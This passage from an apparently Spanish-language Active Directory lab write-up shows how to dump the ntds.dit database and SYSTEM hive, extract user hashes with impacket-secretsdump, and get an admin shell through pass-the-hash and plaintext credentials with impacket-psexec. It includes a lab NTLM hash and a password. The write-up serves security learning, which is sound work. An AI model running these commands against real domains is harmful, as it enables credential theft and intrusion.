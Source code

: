 Esta instrucción permite el montaje del disco duro clonado del disco duro del equipo víctima.  

![Herramienta diskshadow](evil-winrm-diskshadow.png){: width="972" height="589" }
_Herramienta diskshadow_

Tras realizar el clonado del disco se copia el archivo ntds.dit con el comando.

```bash
robocopy /b e:\Windows\NTDS\ . ntds.dit
```

Se realiza una copia del registro system con el comando:

```bash
reg save HKLM\system
```

Y se envían a la máquina atacante, parar posteriormente ejecutar la herramienta impacket-secretsdump donde se le envían los archivos descargados como parámetros con el comando:

```bash
impacket-secretsdump -system system -ntds ntds.dit LOCAL
```

Esta herramienta obtendrá los hashes de los usuarios con los que se podrán acceder al sistema. 

![Herramienta impacket-secretsdump](impacket-secretsdump.png){: width="972" height="589" }
_Herramienta impacket-secretsdum_


Con estos hashes y la herramienta [**impacket-psexec**](https://github.com/SecureAuthCorp/impacket/blob/3c6713e309cae871d685fa443d3e21b7026a2155/examples/psexec.py) se puede comprobar que el AD es vulnerado mediante la técnica Pass The Hash, lo que permite establecer una Shell contra el AD, con permisos de administrador, con el comando:

```bash
impacket-psexec jcaballer.local/Administador@192.168.140.129 -hashes :f8a5250f2e22c9b727334f278792ef7b
```

![Herramienta impacket-psexec](impacket-psexec.png){: width="972" height="589" }
_Herramienta impacket-psexec_


# Obtención de acceso al AD

Tras conseguir unas credenciales validas de administrador, con cualquiera de las credenciales vistas anteriormente, la manera más cómoda de establecer una conexión contra el AD es mediante la herramienta impacket-psexec la cual permite ejecutar cualquier comando contra el AD, solicitando la obtención de una consola mediante la instrucción:

```bash
impacket-psexec jcaballer.local/jcaballeradm:Password1.@192.168.140.129 cmd.exe
```

![Herramienta impacket-psexec para acceso](impacket-psexec-acceso.png){: width="972" height="589" }
_Herramienta impacket-psexec para acceso_
